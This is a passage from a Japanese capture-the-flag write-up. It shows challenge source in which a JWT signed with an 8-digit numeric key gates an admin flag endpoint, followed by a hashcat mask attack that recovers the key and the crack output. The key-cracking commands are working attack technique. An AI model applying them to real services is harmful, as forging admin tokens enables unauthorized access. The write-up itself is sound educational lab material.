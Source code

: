 ```javascript
        next();
      }
    });
  } else {
    next();
  }
});
︙
router.get('/flag', wrap(async (req, res) => {
  if (!req.auth) return res.send({ code: 401 });
  if (!req.auth.isAdmin) return res.send({ code: 403 });

  res.send({ code: 200, flag: CONF.flag.bruth });
}));
︙
```

JWT として与えられたユーザ情報について、`isAdmin` というプロパティになにか入っていれば `/bruth/flag` にアクセスしたときにフラグが得られるようです。JWT の署名に使われている鍵の `CONF.jwt.bruth.key` は `config.js` から来たようなので、見てみましょう。

```javascript
const fs = require('fs');

module.exports = {
︙
  jwt: {
    bruth: {
      key: '********', // 0~9, 8 length
      options: {
        issuer: 'c2w2m2',
        expiresIn: '1d',
        algorithm: 'HS256',
      }
    },
︙
  },
︙
}
```

数字 8 ケタのようです。適当に問題ページで JWT を発行させて [hashcat](https://hashcat.net/hashcat/) で殴ってみましょう。

```
>hashcat64.exe -m 16500 jwt.hash -a 3 -w 3 ?d?d?d?d?d?d?d?d
hashcat (v5.1.0) starting...
︙
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE1MiwiaXNBZG1pbiI6ZmFsc2UsImlhdCI6MTU3NzI1Mjc4OSwiZXhwIjoxNTc3MzM5MTg5LCJpc3MiOiJjMncybTIifQ.PVjamYSoJnn_AP016-gxUiCv6VHkvcr3oGTpdyLTMUc:40906795
Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE1Mi...yLTMUc
Time.Started.....: Wed Dec 25 15:00:57 2019 (4 secs)
Time.Estimated...: Wed Dec 25 15:01:01 2019 (0 secs)
︙
```
